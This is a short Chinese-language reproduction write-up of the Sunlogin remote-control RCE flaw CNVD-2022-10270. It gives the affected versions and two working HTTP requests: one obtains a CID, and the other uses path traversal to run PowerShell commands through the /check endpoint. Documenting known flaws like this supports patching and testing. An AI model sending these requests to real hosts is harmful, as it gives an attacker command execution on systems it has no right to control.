# 向日葵远程代码执行漏洞（CNVD-2022-10270）

## 漏洞描述
向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取。

## 影响版本
+ 向日葵个人版 for Windows <=11.0.0.33162版本
+ 向日葵简约版 <= V1.0.1.43315（2021.12）

## 漏洞复现
向日葵开启后会默认在`4000-65535`之间开启某个端口

![1679820583875-6d7b4e9b-5387-4cf5-a2e6-88ddcde3bacd.png](./img/gUlc0BSsVT6Iv0WU/1679820583875-6d7b4e9b-5387-4cf5-a2e6-88ddcde3bacd-830006.png)

发送请求获取CID

```java
/cgi-bin/rpc?action=verify-haras
```

![1679820640646-5c60754e-fc3f-407f-9f0f-882daffc1ac8.png](./img/gUlc0BSsVT6Iv0WU/1679820640646-5c60754e-fc3f-407f-9f0f-882daffc1ac8-757223.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```java
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![1679820683541-36b5acf8-87ff-466c-aa76-1b3ea94f802c.png](./img/gUlc0BSsVT6Iv0WU/1679820683541-36b5acf8-87ff-466c-aa76-1b3ea94f802c-023495.png)



> 更新: 2024-02-29 23:58:31  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/re22tknn48ckod6v>
